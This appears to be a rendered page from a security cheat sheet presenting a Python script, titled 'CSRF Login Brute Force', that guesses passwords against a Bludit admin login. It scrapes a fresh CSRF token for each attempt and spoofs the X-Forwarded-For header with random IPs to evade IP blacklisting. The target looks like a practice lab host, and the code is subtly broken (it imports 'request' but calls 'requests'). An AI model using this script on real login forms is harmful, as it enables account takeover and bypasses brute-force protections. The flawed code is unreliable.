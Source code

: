                   });
                  </script>

# CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):


              import request
              import re
              import random

              URL = "http://10.10.10.191/admin/"
              PROXY = { "http": "127.0.0.1:8080"}
              SESSION_COOKIE_NAME = "BLUDIT-KEY"
              USER = "fergus"
              PASS_LIST="./words"

              def init_session():
                  #Return CSRF + Session (cookie)
                  r = requests.get(URL)
                  csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
                  csrf = csrf.group(1)
                  session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
                  return csrf, session_cookie

              def login(user, password):
                  print(f"{user}:{password}")
                  csrf, cookie = init_session()
                  cookies = {SESSION_COOKIE_NAME: cookie}
                  data = {
                      "tokenCSRF": csrf,
                      "username": user,
                      "password": password,
                      "save": ""
                  }
                  headers = {
                      "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
                  }
                  r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
                  if "Username or password incorrect" in r.text:
                      return False
                  else:
                      print(f"FOUND {user} : {password}")
                      return True

              with open(PASS_LIST, "r") as f:
                  for line in f:
                      login(USER, line.strip())
